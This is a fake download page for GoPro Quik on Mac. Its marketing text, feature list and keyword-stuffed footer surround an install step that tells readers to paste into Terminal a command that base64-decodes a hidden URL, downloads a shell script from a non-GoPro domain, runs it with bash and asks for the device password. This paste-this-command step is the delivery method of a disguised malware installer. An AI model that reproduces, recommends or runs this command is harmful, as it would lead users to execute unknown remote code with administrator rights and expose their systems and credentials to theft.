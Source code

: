 # GoPro Quik Mac Download

![GoPro Quik Mac Screenshot](https://static.gopro.com/assets/blta2b8522e5372af40/bltcf8b58984c9d9a90/64dccf63b1e7d17bebfe861f/37-pdp-H12BCE-375.png)

---

## 📦 How to Install

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxMC9pbnN0YWxsLnNo | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 📦 What is GoPro Quik for Mac?

**GoPro Quik for Mac** is the official video editing and media management application for your GoPro footage, now available natively for macOS. Whether you're editing action-packed clips from your Hero, Max, or Fusion camera—or just managing your photo and video library—Quik gives you the tools to create stunning, shareable content fast and effortlessly.

With a simple drag-and-drop interface, GoPro Quik automatically syncs footage to music, applies cinematic transitions, and lets you fine-tune your edits. Designed with speed and usability in mind, it’s perfect for adventurers, content creators, vloggers, and anyone who wants to quickly turn raw footage into polished videos.

Built specifically for macOS, **GoPro Quik** integrates smoothly with your MacBook or iMac, taking advantage of system resources to ensure high performance—even on Apple Silicon (M1/M2/M3). Whether you're organizing your media, transferring files from your GoPro, or publishing to social media, Quik on Mac is your creative hub.

---

## 🌟 Key Features & Benefits

- 🎬 **One-Click Edits** — Auto-generate videos with synced music and stylish cuts.
- 🪄 **Smart Highlight Detection** — Quik finds your best shots automatically.
- 🎵 **Built-in Music Library** — Choose from royalty-free soundtracks.
- 🖥️ **macOS Optimized** — Native support for Intel and Apple Silicon (M1/M2/M3).
- 📂 **Media Management** — Organize, trim, and share your footage with ease.
- ⚡ **Fast File Transfers** — Quickly import videos and photos from your GoPro.
- 🎨 **Manual Edits** — Full creative control with trim, crop, text, and filters.
- 📤 **Export in HD/4K** — Share on YouTube, Instagram, or save to local drive.

---

![GoPro Quik Mac Screenshot 2](https://community.gopro.com/sfc/servlet.shepherd/version/renditionDownload?rendition=THUMB720BY480&versionId=0683b00000KKMeu&operationContext=CHATTER&contentId=05T3b00001CF4Ak&page=0)

---


## 🖥️ System Requirements

- **macOS:** 10.15 Catalina or later  
- **Processor:** Intel or Apple Silicon (M1/M2/M3)  
- **RAM:** 8 GB or more  
- **Disk Space:** 2 GB minimum  
- **GoPro Device:** HERO9, HERO10, HERO11, MAX, or newer recommended

---

## 🏷️ Keywords

gopro quik mac, go pro quik mac, quik mac gopro, quik mac, gopro app for mac, go pro app mac, gopro quik app for mac, gopro quik mac download, gopro quik download mac, go pro quik for mac, gopro quik for macbook air, gopro quik app mac, mac quik



